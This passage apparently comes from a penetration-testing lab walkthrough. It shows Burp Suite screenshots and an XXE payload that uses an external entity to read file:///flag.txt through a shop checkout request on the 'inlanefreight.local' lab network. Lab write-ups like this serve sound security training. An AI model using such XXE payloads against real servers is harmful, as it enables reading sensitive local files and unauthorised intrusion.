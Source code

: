 ![Burp Suite - ShopDev2 POST Checkout XXE Attempt](./assets/screenshots/attacking_enterprise_networks_external_testing_39.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root><subtotal>undefined</subtotal><userid>&xxe;</userid></root>
```

![Burp Suite - ShopDev2 POST Checkout XXE Flag](./assets/screenshots/attacking_enterprise_networks_external_testing_40.png)

#### `monitoring.inlanefreight.local`
